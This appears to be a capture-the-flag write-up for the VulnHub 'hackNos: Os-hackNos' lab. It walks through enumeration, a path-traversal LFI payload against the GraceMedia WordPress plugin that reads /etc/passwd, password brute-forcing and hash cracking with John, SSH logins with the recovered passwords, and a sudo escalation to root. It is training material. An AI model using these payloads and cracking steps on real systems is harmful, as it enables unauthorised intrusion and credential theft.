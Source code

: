 ```yaml
---
published: true
title: Hack Nos
author: F3dai
image: 'https://imgur.com/DhdkXVo.png'
category: writeup
---
```


2 Flag first user And second root, learning: exploit | Web Application | Enumeration | Privilege Escalation - www.hackNos.com

**URL:** [mhz_cxf: c1f](https://www.vulnhub.com/entry/hacknos-os-hacknos,401/)

**Difficulty:** Easy

**Author:** hackNos: Os-hackNos

### Enumeration

Set up the Machine with a host-only adapter and run a net discover command to find the associated IP. My interface eth1 is Host-Only on my main OS (Kali Linux).

<pre>netdiscover -i eth1</pre>

![net](https://imgur.com/jCliSJM.png)

We can identify the machine with the IP 192.168.56.117, so we will scan it for open ports with nmap to a file named "nmap" with the following command:

<pre>nmap -sS -p- -A -o "nmap" 192.168.56.117</pre>

To start, port 80 is open so we will investigate this port with a browser.

![apache](https://imgur.com/DhdkXVo.png)

There is not much to see, this is the default Apache web page meaning there is probably another web page we are not seeing.

Let's run a dirb scan to discover more paths we can further enumerate with the following command:

<pre>dirb http://192.168.56.117/ </pre>

![dirb](https://imgur.com/cFsXjzN.png)

One of the results that have been returned is /tsweb so let's see what is on there:

![tsweb](https://imgur.com/ebcljVN.png)

This is clearly a Wordpress site so let's run a scan with WPScan. Please note, the newer version of WPScan requires an API token to view the vulnerabilities you can get from their website. 

The following command will scan the site and hopefully return any users, vulnerable plugins and vulnerable themes:

<pre>wpscan wpscan --url http://192.168.56.117/tsweb/ -e u,vp,vt </pre>

![wpscan users](https://imgur.com/bWLLpQs.png)

We have found a user called "user". This is worth noting.

We have also identified a vulnerable plugin called gracemedia-media-player which is susceptible to LFI. 

![vp](https://imgur.com/gRPHYB0.png)

The exploit:

<pre>Title: GraceMedia Media Player 1.0 - Local File Inclusion (LFI)

require_once($_GET['cfg']); The parameter "cfg" it is not sanitized allowing include local files on /gracemedia-media-player/templates/files/ajax_controller.php
</pre>

A link to the exploit DB page: [ExploitDB](https://www.exploit-db.com/exploits/46537)

LFI is usually an exploit for attackers with authenticated access, meaning we need to be authenticated as a user or admin for this Wordpress site. 

Initially, I tried brute-forcing the password since Wordpress has an easy brute-force function with the following command:

<pre>wpscan --url http://192.168.56.117/tsweb --passwords /usr/share/wordlists/rockyou.txt --usernames user</pre>

This would essentially use the rockyou.txt wordlist against the username "user" to see if any would work. 

This did not work, so I tried to look into the /etc/passwd directory with Path Traversal. Read more about this on [OWASP](https://owasp.org/www-community/attacks/Path_Traversal).

This was also given in the POC (Proof of Concept) in the exploit.

Visiting the following URL allows us to view the passwd file of the system:

<pre> http://192.168.56.117/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd </pre>

![passwd](https://imgur.com/3obLd4H.png)

This is to further investigate. Flag is a user with a hash value associated with it.

<pre>$1$flag$vqjCxzjtRc7PofLYS2lWf/</pre>

Let's try and crack this md5 hash. I added this hash to a file named "hash" and asked John to crack it.

<pre>echo "$1$flag$vqjCxzjtRc7PofLYS2lWf" > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash</pre>

![john](https://imgur.com/0p82yTV.png)

We got a password!

<pre>topsecret</pre>

Let's try ssh into the machine with the following command:

<pre>ssh flag@192.168.56.117</pre>

![ssh](https://imgur.com/04ugvzk.png)

We are logged in as flag.

### Privilege Escalation

The change directory command is restricted so we will have to use ls to discover what is on the system.

![cd](https://imgur.com/KKPefEh.png)

I checked the Wordpress config file and found database credentials worth noting:

<pre>cat var/www/html/tsweb/wp-config.php</pre>

![config](https://imgur.com/rp6R2HV.png)

Some more enumeration on the system reveals something interesting in the backup directory:

<pre>ls -la /var/backups/passbkp</pre>

![backup](https://imgur.com/lbpW0Nk.png)

Let's crack this md5 hash like before. Again I save it to a file called hash.

<pre>john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt hash</pre>

And the following password has been found:

<pre>!%hack41</pre>

We will try ssh into another user called Rohit. This user was identified from the /home directory.

<pre>ssh Rohit@192.168.56.117</pre>

Let's check sudo Privileges:

<pre>sudo -l</pre>

Rohit clearly has all sudo privileges, so running the following command should give us root:

<pre>sudo /bin/bash</pre>

And we have root!

<pre>id
cd /root
ls</pre>

![sudo](https://imgur.com/RovwWeg.png)
